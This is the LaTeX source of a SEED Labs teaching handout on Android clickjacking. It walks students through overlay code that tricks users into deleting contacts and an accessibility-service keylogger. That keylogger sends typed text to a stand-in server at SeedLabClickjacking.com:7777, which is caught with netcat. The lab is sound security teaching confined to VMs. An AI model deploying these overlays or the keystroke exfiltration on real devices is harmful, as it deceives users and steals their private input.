\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}





\newcommand{\clickFigs}{./Figs}

\begin{document}



\begin{center}
{\LARGE Clickjacking Attack Lab}
\end{center}

\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


Clickjacking attack is a very common type of attack for most devices.
In such an attack, attacker uses multiple transparent or opaque 
layers to trick a user into clicking on a button or link on another page when they 
were intending to click on the top level page. Users can be easily fooled, and do not
even realise where they are really clicking. Attackers need user interaction to make this attack 
successful, hence they usually design clickjacking attack applications in the form of games or 
survery forms.

The learning objective of this lab is for students to gain a first-hand
experience in Clickjacking attack, so they can better understand 
this particular risk associated with Android systems, and be more cautious
when downloading apps to their devices, especially from those untrusted
third-party markets. In this lab, students will be asked to conduct a simple 
clickjacking attack and demonstrate it on our provided Android VM. Students will also see 
what damage can be done with a fully weaponized clickjacking attack. 

Students should be warned not to submit the clickjacking attack apps to any market, 
or they will face legal consequence. Nor should they run the attack on their own Android devices,
as that may cause real damages.

In order to conduct this attack, the attackers need only one permission, the "Permit drawing over other apps" permission.
Once they have this, it is very difficult for users to catch the attack. Also, this permission is very commonly used in devices. 
Popular applications like the Music application, calling application, all use this permissions. Be very careful when giving an 
application this permission.

\paragraph{Note:} All devices are vulnerable to this attack. Attacks on devices with Android version below 7.0 do not even require users permission to draw over other applications. 



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Environment}

The lab requires two virtual machines, one is called SEEDAndroid, and the other is called
SEEDUbuntu16.04. As the name indicates, the first VM is a virtual machine running Android
operating system, and we need it to test our clickjacking attack. The second
VM is a Ubuntu Linux virtual machine; all the tools needed for
this lab, have already been installed the SEEDUbuntu VM. 
Both VMs and their user manuals can be downloaded from the SEED web site. 



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 1: Perform a Clickjacking attack}


In this task we will demonstrate a clickjacking attack, where we will delete a contact. We have already designed an
application which does a clickjacking attack and it is installed in your AndroidVM.
Our application behaves as a Calibration phase before playing a game, it will ask you to click various button in order to complete the 
calibration for best user experience. What is actually happenning in the background is that we are deleting a contact. In order to perform
this attack, we need to get the users permission for "Permit drawing over other apps". 

\paragraph{Attack Code}
Before performing the attack, we will first talk about how we did this attack. \\
After getting the required permissions, we need to design views and overlay them on the page. We have to make sure to cover the whole page and make it possible to click through these views. So, when the user clicks, the click is actually happenning in the background of that view (which is not visible to the user). We control how wide or long the views are using coordinate values and have to position them perfectly. 

\begin{enumerate}

\item Step 1: We use an intent to open the page which closest to our goal,
programitically. For example, to delete contacts we will open the contacts
application first and then design our views.
    
\begin{lstlisting}
startStep1();
Intent openContacts = new Intent(Intent.ACTION_DEFAULT,  ContactsContract.Contacts.CONTENT_URI);
openContacts.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
openContacts.addFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);
openContacts.addFlags(Intent.FLAG_ACTIVITY_NO_ANIMATION);
openContacts.addFlags(Intent.FLAG_ACTIVITY_EXCLUDE_FROM_RECENTS);
startActivity(openContacts);
\end{lstlisting}

Here, the function \textbf{startStep1()} overlays our views for the first
page.  After, this create an intent which opens the contacts application in
the background. So, the views defined by \textbf{startStep1()} are on top
of the first page of the contacts applications. Consecutively,
\textbf{startStep1()} will call \textbf{startStep2()},
\textbf{startStep3()} and so on, until we have performed the required
tasks.

\item Step 2: The main work now is to design the views. While designing
views we need to place the button exactly on top of where we want the user
to click and cover the rest of the page with whitespace. This makes sure
that the page in the background is not visible. We use Android
WindowManager to add our views.

Each view has a boolean value called "passthrough". If this value is false,
the users click will not go through to the background and vice versa. Only
the view with our button has "passthrough" as true and the others have
false, so that users don't click
somewhere else.

Defining our views:
\begin{lstlisting}
public OverlayOne(final ClickJacking service) {

        mTextView = new TextView(service);
        mTextView.setText("Calibration : ");
        mTextView.setBackgroundColor(ClickJacking.mMakeAttackVisible ? 0x66FF0000 : 0xFFFFFFFF);
        mTextView.setTextColor(0xff000000);
        mTextView.setTextSize(20f);
        mTextView.setGravity(Gravity.CENTER);
    }
...
public View getView() {
        return mTextView;
    }
...
public WindowManager.LayoutParams getParams() {
        return ClickJacking.getParams(mRect, false);
    }
\end{lstlisting}

Here, we first define our textview.


Here, function call \textbf{ClickJacking.mMakeAttackVisible} checks if the
user has selected this option. If it is selected, the color schemes are
changed and the overlays become visible to the users along with the
background. We use this to show users the actual overlay and for debugging
the views.

Also, the function call \textbf{ ClickJacking.getParams} return the
coordinate values and the boolean "passthrough" value for this view. Each
view has preset coordinates which are set using "mRect".

Refer to \textbf{Figure 1} and \textbf{Figure 2} to see the views with "Attack visible" toggled on and off.

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\clickFigs/Figure2.png}
  \end{center}
  \caption{Attack visible toggled on}
\end{figure}
\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\clickFigs/Figure3.png}
  \end{center}
  \caption{Attack visible toggled off}
\end{figure}

\item Step 3: This is the step where we add our views. This is how our
function \textbf{startStep1()} looks like:

\begin{lstlisting}
 public void startStep1() {
        if (currentStep > 0) return;
        currentStep = 1;
        addView(o1);
        addView(o2);
        addView(o3);
    }
\end{lstlisting}

Here we add all our views. Each view checks if all views are added and then
invokes startStep2() and so on. startStep2() will add its new views and
remove the old ones. This is how startStep2() looks: 

\begin{lstlisting}
  public void startStep2() {
        if (currentStep > 1) return;
        currentStep = 2;
        addView(o5);
        addView(o6);
        new ViewRemover(this, o1).start();
        new ViewRemover(this, o2).start();
        new ViewRemover(this, o3).start();
    }
\end{lstlisting}

\textbf{addView} and \textbf{viewRemover} are functions defined by us,
which use Android WindowManager to set and remove views.
   
\item Step 4: addView() and viewRemover(): 
\textbf{addView() :} 
\begin{lstlisting}
 public void addView(ViewWithParams v) {
        WindowManager wm = (WindowManager) getSystemService(WINDOW_SERVICE);
        wm.addView(v.getView(), v.getParams());
    }
\end{lstlisting}
Here, we create a WindowManager object and call our functions getView() and
getParams() to add the view. 

getView() returns the view we defined in Step 2.

getParams() checks if the view is passthrough or not, and then sets the layoutParams :

\begin{lstlisting}
  private static WindowManager.LayoutParams getAlertLP(Rect rect) {
        WindowManager.LayoutParams lParams = new WindowManager.LayoutParams(
                rect.right - rect.left,
                rect.bottom - rect.top,
                WindowManager.LayoutParams.TYPE_SYSTEM_ALERT,
                WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH |
                        WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE |
                        WindowManager.LayoutParams.FLAG_NOT_TOUCH_MODAL,
                PixelFormat.TRANSLUCENT);
        lParams.gravity = Gravity.TOP | Gravity.LEFT;
        lParams.x = rect.left;
        lParams.y = rect.top;
        return lParams;
    }

NOTE :  "WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH"  is what allows us to click through the view. Incase, "passthrough" is false, we remove this attribute.
\end{lstlisting}

\textbf{viewRemover() :}
 \begin{lstlisting}
 public static void removeView(Context ctx, View view) {
        WindowManager wm = (WindowManager) ctx.getSystemService(ctx.WINDOW_SERVICE);
        wm.removeView(view);
    }
\end{lstlisting}
\end{enumerate}

\paragraph{Performing the Attack:} Now we can perform the attack. This
involves, two steps.  Refer to figure 3 to see how the application looks:

\begin{enumerate}
\item Step 1: Add a contact. We will delete this contact using the
clickjacking attack.

\item Step 2: Run the clickjacking application. Click on "ASK FOR
PERMISSION" and it will take you to the permission page. Give that
permission. Now, head back to the app and click on "START CLICKJACKING
ATTACK". Follow the steps and at the end you should see that the contact
has been deleted.  

\item Additional: Now try to run the attack after
toggling "Make attack visible" option. You should be able to see how the
views have been overlayed on top of the contacts and get an idea of how the
attack really works (make sure to add a new contact before trying again). 
\end{enumerate}

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\clickFigs/Figure1.png}
  \end{center}
  \caption{Clickjacking Attack Application}
\end{figure}

Submit screenshots to prove you have done the attack. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Dangerous Accessibility Service in Android}

One of the most dangerous services in the Android system is the
accessibility service. If any application were to get access to the
accessibility service, they would have full access to everything that
happens on the device. That application will be able to capture keystrokes,
actions, record each click or touch etc. 

In this task, we show you how dangerous an accessibility service permission
can be and how the attackers can use the attack in task 1 to get the
permissions for this service and gain full control.

\paragraph{Attack Code}
Before performing the attack, we will first talk about how a legitimate
application can use the accessibility service and how we use it in a
malicious way. 

\textbf{Capturing events from accessibility service : } 
After getting required permissions, we need to create a class which extends
"AccessibilityService". we can use an object of "AccessibilityEvent" to
capture various different events and do with them as we please:

\begin{lstlisting}
public class getAccessibilityEvent extends AccessibilityService {
...
public void onAccessibilityEvent(AccessibilityEvent event) {
	 Log.d("Event 1",event.getPackageName());
	 Log.d("Event 2",event.getText());
	 Log.d("Event 3",event.getPackageName());
	 Log.d("Event 4",event.getEventTime());
...
        }
}
\end{lstlisting}

\textbf{Malicious usage of the Accessibility service : } 
One example of malicious usage could be to send out everything typed by the
user to our server. In our application, we use a stringbuilder to
concatenate everything typed by the user and repeatedly send this out to
our server :

\begin{lstlisting}
public class getAccessibilityEvent extends AccessibilityService {
...
private String getEventText(AccessibilityEvent event) {
            StringBuilder sb = new StringBuilder();
            for (CharSequence s : event.getText()) {
                sb.append(s);
            }
            return sb.toString();
        }
...
 public void onAccessibilityEvent(AccessibilityEvent event) {
            s = "package=" + event.getPackageName() + "&" + "text=" + getEventText(event);
            new SendData(s).execute();
        }
...
}
\end{lstlisting}

\textbf{SendData} is a class which extends AsyncTask used to send data out of the device.

\begin{lstlisting}
class SendData extends AsyncTask<String, Void, Void> {
    String s;
    public SendData(String a)
    {
        s=a;
    }
    private Exception exception;
    protected Void doInBackground(String... urls) {
            URL url = null;
            url = new URL("http://www.SeedLabClickjacking.com:7777");
            HttpURLConnection urlConnection = null;
            urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setDoOutput(true);
            urlConnection.setChunkedStreamingMode(0);
            OutputStream out = new BufferedOutputStream(urlConnection.getOutputStream());
            out.write(s.getBytes());
            out.flush();
            urlConnection.disconnect();
       }
        return null;
    }
\end{lstlisting}

\paragraph{Performing the Attack: }
Follow the steps below to perform the attack. We will need both the VM's for this task.

\begin{enumerate}
\item Step 1: On your SEEDUbuntu machine, open a terminal and run the following command:
\begin{lstlisting}
$ nc -kl 7777 
\end{lstlisting}
\item Step 2: On yourAndroidVM machine, you need to modify the
/system/etc/hosts file and modify the IP address of
"SeedLabsClickjacking.com" with the IP address of your SEEDUbuntu VM. In
order to do this, we will use "adb push" and "adb pull". On your SEEDUbuntu
machine, do the following:

\begin{lstlisting}
$ adb root
$ adb disconnect
$ adb connect IP-OF-ANDROIDVM
$ adb pull /system/etc/hosts
$ vim hosts
$ adb push hosts /system/etc/
\end{lstlisting}
\item Step 3: Give accessibility permissions to our applications. For this:

\begin{lstlisting}
Go into settings -> Accessibility -> ClickJacking Attack -> Toggle on -> OK
\end{lstlisting}

\item Step 4: Play around in your AndroidVM and watch the SEEDUbuntu netcat
session recieve everything you do. Try to type in the browser of the
Android VM and you will be able to see each key being logged in our
SEEDUbuntu machine. 

\end{enumerate}

Refer to Figure 4 to see how a keylog response looks like on our SEEDUbuntu machine.

Everything we do in step 3 of this attack can be done using clickjacking
attack. If attackers were to get your accessibility permission on their
application, all your information could be leaked.

\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\clickFigs/Figure4.png}
  \end{center}
  \caption{Keylog Response on SEEDUbuntu}
\end{figure}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Design your clickjacking attack}

In this task, we will perform a clickjacking attack to turn the airplane
mode of. We will give you the source code and you will have to allign the
views by modifying the coordinates in the "setCoords" function inside the
init() function of the ClickJacking class.  Here is how setCoords looks :

\begin{lstlisting}
...
setCoords(1, 0, 0, 1024, 100);
setCoords(2, -100, 100, 1024, 300);
setCoords(3, 0, 400, 1024, 820);
...
\end{lstlisting}

The first attribute is the "viewId" which tells us the ID of the view we are modifying the coordinates for. In your activity, you have two views, OverlayOne() and OverlayTwo(). You just have to play with the coordinates of these views and align them perfectly. Debugging can be done using "Make Attack visible" option. Here is a little more information about setCoords:

\textbf{Function setCoords(viewId, ax, ay, bx, by);}
Here, ax and ay define the position of the content inside your view. Example, a button or a textbox. 

Bx and by define the length and breadth of the view itself.

For instance, in your task you will have to play with all 4 values with
OverlayOne(), but only with bx and by for OverlayTwo() (since OverlayOne()
contains the button).

You will have to modify the code, recompile and "adb install" the
application in the AndroidVM to test your changes. The only place you have
to modify is "setCoords" values inside the "ClickJacking.java" file. Follow
the guidelines given below to modify, recompile and install your
applications (you will neeed both your VM's for this task) : 


\begin{itemize}
\item Step 1 : Download and unzip ClickJacking.zip file from our website
\item Step 2: Locate the code files. Go to the folder app/src/main/java/seedlabs/clickjacking2 folder.
\item Step 3: Here you should see ClickJacking.java. This is where you have to modify the coordinate values for our views.
\item Step 4: After making the required modifications, build the
application and get the .apk file. To build your app go into the root
folder of the application and run : 
\begin{lstlisting}
$ chmod +x gradlew
$ ./gradlew
$ ./gradlew assembleDebug
\end{lstlisting}

You can find the built .apk file in app/build/outputs/apk/
\item Step 5: Install the apk on the Android VM using : 

\begin{lstlisting}
$ adb disconnect
$ adb connect IP-OF-ANDROIDVM
$ adb install YOUR-APK.apk
\end{lstlisting}

\item Step 6: After installation, you should find an application with the name "Clickjacking Attack 2" 
\end{itemize}

\textbf{NOTE:} 

\begin{itemize}
\item 1 : You should first install the application on the AndroidVM without
changes to get a feel of the views

\item 2: You have to delete the application from the AndroidVM before re-installing, everytime.

\item 3: You will probably have to modify, recompile and re-install multiple times before you can allign the views perfectly
\end{itemize}

\section{Submission and Demonstration}

You need to submit a detailed lab report to describe what you have done and what you have
observed, including screenshots and code snippets (if needed). You also need to provide
explanation to the observations that are interesting or surprising. You are encouraged to
pursue further investigation, beyond what is required by the lab description.
\end{document}

